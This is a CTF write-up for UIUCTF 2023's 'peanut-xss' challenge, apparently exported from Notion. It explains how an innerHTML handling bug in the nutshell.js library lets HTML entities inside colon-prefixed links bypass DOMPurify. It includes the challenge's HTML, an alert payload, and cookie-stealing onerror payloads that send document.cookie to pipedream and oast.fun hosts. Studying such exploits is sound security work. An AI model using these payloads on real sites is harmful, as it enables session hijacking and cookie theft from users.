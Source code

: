 ```yaml
---
id: 939b9002-fd8d-4184-bb78-de45c82d5e3b
title: >-
  Zero-Day XSS Found in Open Source JS Library for CTF Solution - UIUCTF 2023 -
  peanut-xss Writeup
created_time: 2024-04-30T23:16:00.000Z
last_edited_time: 2024-11-24T07:12:00.000Z
cover_image: ./imgs/Screen_Shot_2016-02-17_at_3.54.25_PM.0.0_d3KvasX1.png
icon_emoji: 0️⃣
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Zero-Day XSS Found in Open Source JS Library for CTF Solution - UIUCTF 2023 -
  peanut-xss Writeup
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/Screen_Shot_2016-02-17_at_3.54.25_PM.0.0_d3KvasX1.png

---
```


This week, I participated in UIUCTF 2023 with the TCP1P team and successfully solved multiple challenges. One of the challenges I tackled was called "peanut-xss".

In this challenge, our goal was to exploit an XSS vulnerability on the web page and retrieve the admin cookie from the admin bot. However, the challenge presented a challenge due to the usage of the latest JavaScript libraries. Here's a glimpse of the source code I obtained from the web:

```html
<!DOCTYPE html>
<html data-theme="light" lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <meta http-equiv="X-UA-Compatible" content="ie=edge" />
  <title>Peanut XSS</title>
  <script src="<https://cdn.jsdelivr.net/gh/ncase/nutshell@v1.0.06/nutshell.js>"
    integrity="sha512-M2fB+hjUmLSY45qhwo1jQlOHhkxVJEGbWfHtJBV4WtKGS6KN2LsWLINTYkQZHlSqU5NUHBUw8Vl2tUJK2OwKDA=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <link rel="stylesheet" href="<https://cdnjs.cloudflare.com/ajax/libs/picocss/1.5.2/pico.min.css>"
    integrity="sha512-3gFq2IXMVlAQaUyahzhjDRivv0yqyXTb7xiy6ivTaG5Uz4hKI54uYxpQefdomgDVQ11eJVUbXG0YdPMDISiGgg=="
    crossorigin="anonymous" referrerpolicy="no-referrer" />
  <script src="<https://cdnjs.cloudflare.com/ajax/libs/codemirror/6.65.7/codemirror.min.js>"
    integrity="sha512-8RnEqURPUc5aqFEN04aQEiPlSAdE0jlFS/9iGgUyNtwFnSKCXhmB6ZTNl7LnDtDWKabJIASzXrzD0K+LYexU9g=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <link rel="stylesheet" href="<https://cdnjs.cloudflare.com/ajax/libs/codemirror/6.65.7/codemirror.min.css>"
    integrity="sha512-uf06llspW44/LZpHzHT6qBOIVODjWtv4MxCricRxkzvopAlSWnTf6hpZTFxuuZcuNE9CBQhqE0Seu1CoRk84nQ=="
    crossorigin="anonymous" referrerpolicy="no-referrer" />
  <script src="<https://cdnjs.cloudflare.com/ajax/libs/codemirror/6.65.7/mode/xml/xml.min.js>"
    integrity="sha512-LarNmzVokUmcA7aUDtqZ6oTS+YXmUKzpGdm8DxC46A6AHu+PQiYCUlwEGWidjVYMo/QXZMFMIadZtrkfApYp/g=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <script src="<https://cdnjs.cloudflare.com/ajax/libs/codemirror/6.65.7/mode/css/css.min.js>"
    integrity="sha512-rQImvJlBa8MV1Tl1SXR5zD2bWfmgCEIzTieFegGg89AAt7j/NBEe50M5CqYQJnRwtkjKMmuYgHBqtD1Ubbk5ww=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <script src="<https://cdnjs.cloudflare.com/ajax/libs/codemirror/6.65.7/mode/javascript/javascript.min.js>"
    integrity="sha512-I6CdJdruzGtvDyvdO4YsiAq+pkWf2efgd1ZUSK2FnM/u2VuRASPC7GowWQrWyjxCZn6CT89s3ddGI+be0Ak9Fg=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
  <script src="<https://cdnjs.cloudflare.com/ajax/libs/codemirror/6.65.7/mode/htmlmixed/htmlmixed.min.js>"
    integrity="sha512-HN6cn6mIWeFJFwRN9yetDAMSh+AK9myHF1X9GlSlKmThaat65342Yw8wL7ITuaJnPioG0SYG09gy0qd5+s777w=="
    crossorigin="anonymous" referrerpolicy="no-referrer"></script>
</head>

<body>
  <main class="container">
    <p>
      Have you heard of <a href="<https://ncase.me/nutshell/>">:Nutshell</a>?
      Here's a simple site to test it out!
    </p>
    <p>
      It uses <a href="<https://cure53.de/purify>">DOMPurify</a>... so surely
      you won't be able to steal the admin-bot's
      <code>document.cookie</code>.
    </p>
  </main>

  <div id="preview" class="container"></div>
  <textarea id="editor" style="display: none;">
      <h2>To embed a section,</h2>
      <p>just make a link with :colon at the front… <a href="#before=foo">:<img src='x' onerror='fetch(`https://eore067o7fm9cj8.m.pipedream.net?a=${document.cookie}`)'></img></a>!</p>
    </textarea>
  <button id="submit" style="display: none;">Preview</button>
  <script>
    const $ = document.querySelector.bind(document);
    const nutshell = new URLSearchParams(location.search).get("nutshell");
    if (nutshell) {
      preview.innerHTML = DOMPurify.sanitize(nutshell);
    } else {
      var editor = CodeMirror.fromTextArea($("#editor"), {
        mode: "htmlmixed",
        lineNumbers: true
      });
      $("#submit").style.display = "";

      $("#submit").onclick = () => {
        location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
      };
    }
  </script>
</body>

</html>

```

The interesting part lies in the JavaScript library imported in the HTML source code above:

```html
...snip...
  <script src="<https://cdn.jsdelivr.net/gh/ncase/nutshell@v1.0.06/nutshell.js>"
...snip...

```

It uses the `ncase/nutshell` library, and you can check its source code [here](https://github.com/ncase/nutshell). Currently, it is using the latest version, which seems legitimate, and initially, I thought it might not have any vulnerabilities for us to exploit this challenge, right? However, the reality turned out to be different, and we actually needed to discover a zero-day vulnerability to exploit this challenge.

## Uncovering a Zero Day Vulnerability

The first step is to check whether there are any XSS gadgets that we can exploit. In this case, we need to search for specific keywords in the source code, such as `innerHTML`.

After some dynamic analysis and setting numerous breakpoints in the developer console, I stumbled upon this intriguing part of the code (which you can find here: [source code](https://github.com/ncase/nutshell/blob/c182586d649153577b985dfd8dfab15e739130f6/nutshell.js#L607-L684)). Below is the snippet of the mentioned interesting part:

```javascript
...snip...
        let expandables = [...dom.querySelectorAll('a')].filter(
            link => (link.innerText.trim().indexOf(':')==0)
        );
...snip...
        expandables.forEach((ex)=>{
...snip...
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
...snip...
            ex.appendChild(linkText);
...snip...

```

In the snippet of the source code provided, it can be observed that it retrieves all "**a**" tags in the DOM. Then, it creates a "**span**" element and removes the "**:**" character from the text using `ex.innerText.slice(ex.innerText.indexOf(':')+1)`. Afterward, the modified text is assigned to `linkText.innerHTML` and appended to the "**ex**" element.

If we inject an HTML entity into an "**a**" tag that starts with "**:**", it will be reappended to the "**ex**" element, allowing us to exploit an XSS vulnerability.

Here is an example payload that triggers an alert on the page:

```html
<a>:&lt;img src=x onerror='alert(1)'/&gt;</a>

```

> You can generate the HTML entity using this tool: CyberChef

Submit this payload on the main page, as shown in the image below:

![](https://hackmd.io/_uploads/H1WWSxJK3.png)

You will then observe that our XSS successfully calls the alert function:

![](https://hackmd.io/_uploads/BJILVl1t3.png)

In this scenario, the goal is to retrieve the flag from `document.cookie`. As an example, you can execute the following script using the XSS vulnerability we previously exploited, and we will obtain the flag through the webhook:

```html
<a>:&lt;img src=x onerror='fetch("<https://foo.oast.fun/?"+document.cookie>)'/&gt;</a>

```

![](https://hackmd.io/_uploads/rketPgkFn.png)
